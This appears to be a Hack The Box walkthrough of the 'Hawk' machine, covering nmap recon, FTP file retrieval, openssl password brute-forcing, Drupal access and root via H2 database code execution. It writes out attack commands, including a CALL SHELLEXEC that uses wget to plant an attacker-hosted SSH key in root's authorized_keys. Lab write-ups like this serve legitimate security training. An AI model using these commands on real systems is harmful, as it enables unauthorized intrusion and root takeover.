 # Hawk Hack The Box Tips

# ${{\color{purple}Initial Recon}}\ $

``nmap -sC -sV -oA hawk -T4 10.10.10.102``

![image](https://user-images.githubusercontent.com/123066149/230886175-1c075cce-aa30-4eba-a72e-a49466a2dc7f.png)

``nmap -p- -sV -oA fullhawk -T4 10.10.10.102``

![image](https://user-images.githubusercontent.com/123066149/230886275-c19e7b0f-4fff-4941-b29f-9376edc03cdd.png)

# ${{\color{purple}Initial Foothold}}\ $

``ftp 10.10.10.102 21``

``dir -a``

``get <nom du fichier>``

![image](https://user-images.githubusercontent.com/123066149/230886704-2c55705f-ec28-4551-9d49-459be1057e3c.png)

``mv .drupal.txt.enc encrypted``

``file encrypted``

![image](https://user-images.githubusercontent.com/123066149/230886940-6b64d2ea-3e79-4f79-a011-c0c6159c9ea7.png)

``wc -c encrypted``

![image](https://user-images.githubusercontent.com/123066149/230887039-d7b5a775-37de-4b91-a12b-fffb0862640f.png)

### It's all the cipher available in openssl :

``openssl --help``

![image](https://user-images.githubusercontent.com/123066149/230887119-6e31e1fd-a610-4ab3-bb7f-8278c7ff5163.png)

``bruteforce-salted-openssl -t 10 -f /usr/share/wordlists/rockyou.txt -c aes-256-cbc -d sha256 encrypted``

![image](https://user-images.githubusercontent.com/123066149/230891237-c3fc28d2-a9f7-4077-8401-e7cb26b69c2c.png)

``openssl enc -aes-256-cbc -d -in encrypted -out decrypted -k friends``

![image](https://user-images.githubusercontent.com/123066149/230891407-a9d9ffcf-6119-49c1-baef-1956536bc8fb.png)

``cat decrypted``

![image](https://user-images.githubusercontent.com/123066149/230891465-0b517b98-6acf-47b9-b8f2-85f84c60b7aa.png)

# ${{\color{purple}Exploitation}}\ $

### Godd ressource for drupal hacking :

https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/drupal

### I used thi creds on the drupal portal :

![image](https://user-images.githubusercontent.com/123066149/230891583-beac5b4c-3203-42ef-b232-b2deed1d890e.png)

### Active php modules :

![image](https://user-images.githubusercontent.com/123066149/230891707-bfb6790c-5163-4e54-88ca-40e4f42166fb.png)


![image](https://user-images.githubusercontent.com/123066149/230891898-c92282fb-f6e9-4fbb-8df5-535f6658c01e.png)

![image](https://user-images.githubusercontent.com/123066149/230892120-a8b817e8-4f08-4b91-92d2-cf0b123de873.png)

![image](https://user-images.githubusercontent.com/123066149/230892506-3658a936-878f-4cde-b4cd-97714c81a932.png)

![image](https://user-images.githubusercontent.com/123066149/230892536-2bcfd7cc-7e3d-442f-9a9c-c459acf7616c.png)

# ${{\color{purple}Privilege Escalation}}\ $

### I found a usable database password for a user in ssh

![image](https://user-images.githubusercontent.com/123066149/230892915-e78bcace-86fb-447e-9cdd-5f3af511fedf.png)

### We have a python shell :

![image](https://user-images.githubusercontent.com/123066149/230893148-5b5b3e46-0256-4b7d-a0ce-4a1e31bf8530.png)

### Spawn a shell :

``import pty``

``pty.spawn("/bin/bash")``

![image](https://user-images.githubusercontent.com/123066149/230893408-b80e3599-7ae9-4925-a663-58e4d1b85f1c.png)

### Was we can see this program have the root privilège :

![image](https://user-images.githubusercontent.com/123066149/230893535-91aeaf9e-6efa-4de8-90b8-99b9a961666b.png)
![image](https://user-images.githubusercontent.com/123066149/230893574-7197f782-c096-4c5b-b784-92a73bf6072c.png)

``netstat -antp``

![image](https://user-images.githubusercontent.com/123066149/230893739-d42f3312-9667-4a1c-be8d-3da498599adf.png)

### We can redirect this port in the local machine with ssh:

``ssh -L 127.0.0.1:4444:127.0.0.1:8082 daniel@10.10.10.102``

![image](https://user-images.githubusercontent.com/123066149/230893850-f5a6fe34-b5b6-4fe4-b3c3-a0a85038c7d1.png)

![image](https://user-images.githubusercontent.com/123066149/230893909-54756edb-3d7c-4892-80a3-805d545e3373.png)

### I connect to the database with the creds I found before :

![image](https://user-images.githubusercontent.com/123066149/230894137-51516348-5fe4-4308-b157-e95fb7c51444.png)

``searchsploit H2 database``

![image](https://user-images.githubusercontent.com/123066149/230894231-840b1713-2e28-4e28-b836-14b1c0b1f14a.png)

### Finding a blog post in the exploit :

![image](https://user-images.githubusercontent.com/123066149/230894288-487080f4-7e89-48f1-9208-0e11f68e6b62.png)

https://mthbernardes.github.io/rce/2018/03/14/abusing-h2-database-alias.html

![image](https://user-images.githubusercontent.com/123066149/230894349-a7c32be7-c966-42e0-b372-74f15ebac9e3.png)

![image](https://user-images.githubusercontent.com/123066149/230894599-6b06c4a7-398e-494e-8816-7d926a83c6ea.png)

### I actually had a surprisingly difficult time going from this code execution to a shell. I tried the standard reverse shells, but none seemed to work

``ssh-keygen``

![image](https://user-images.githubusercontent.com/123066149/230894932-5e96a022-d70c-4783-ad4b-60c96d940828.png)

``cat id_rsa.pub > authorized_keys``

``cat authorized_keys ``

![image](https://user-images.githubusercontent.com/123066149/230895081-f34a9267-78c6-419c-ba05-a5e2697d7a60.png)

``CALL SHELLEXEC('wget -O /root/.ssh/authorized_keys http://10.10.14.10:80/id_rsa.pub')``

![image](https://user-images.githubusercontent.com/123066149/230895262-2f8acb6c-de52-4770-a41c-d6b1d32034bb.png)

``python2.7 -m SimpleHTTPServer 80``

![image](https://user-images.githubusercontent.com/123066149/230895149-5327d4c4-9889-4b5f-a56e-56d9057956fd.png)

``chmod 600 id_rsa``

``ssh -i ssh/id_rsa root@10.10.10.102``

![image](https://user-images.githubusercontent.com/123066149/230895439-2bdf8fc0-c890-494c-b292-6788a882808e.png)

### Enter passphrase created during sshkeygen :

![image](https://user-images.githubusercontent.com/123066149/230895586-09fb2e0b-7f46-4eb0-9888-9e45f6bd8f08.png)


# ${{\color{purple}Points of Improvement}}\ $

* Don't forget to do ``dir -a`` in the ftp to see the hidden files
* Do not forget the replay of database creds for ssh/ftp/...
* Adding a ssh key is a good method if nothing else works 
